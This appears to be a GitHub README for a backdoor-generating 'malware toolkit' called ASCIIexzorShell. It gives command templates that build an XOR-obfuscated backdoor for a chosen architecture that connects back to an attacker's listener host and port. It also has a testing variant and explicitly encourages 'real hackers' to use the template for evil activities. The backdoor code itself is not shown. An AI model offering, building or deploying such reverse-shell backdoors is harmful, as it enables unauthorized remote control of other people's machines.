 # forgotten scripts

This backdoor is an old draft that I decided to share. Don't expect perfects results if you plan to us it "as it".

In order to use my malware toolkit you have first to install the ASCIIexzor suit. Once it has been done, you can run two scripts.

for backdooring purposes :
```bash
ASCIIexzorShell -a <target arch> -h <host listener> -p <listen port(1337 - 50000)> [opt][-v <varname> -k <xor key>]
```
for testing purposes : 
```bash
ASCIIexzorShell-Test -a <target arch> [opt][-v <varname> -k <xor key>]
```

***note : the -k option is partially broken. It's possible to use a custom key but sometimes the backdoor doesn't work.***

My youtube video ( in french ) should give a clue how to use my malware toolkit. 

Of course, this draft is just for testing purpose. 
If you are a kind of "white hat" or something like this, It should be enough.

If on the contrary you are a real "hacker". You already know you can't rely on metasploit for evil activities but at least, my backdoor template should be a good starting :) 
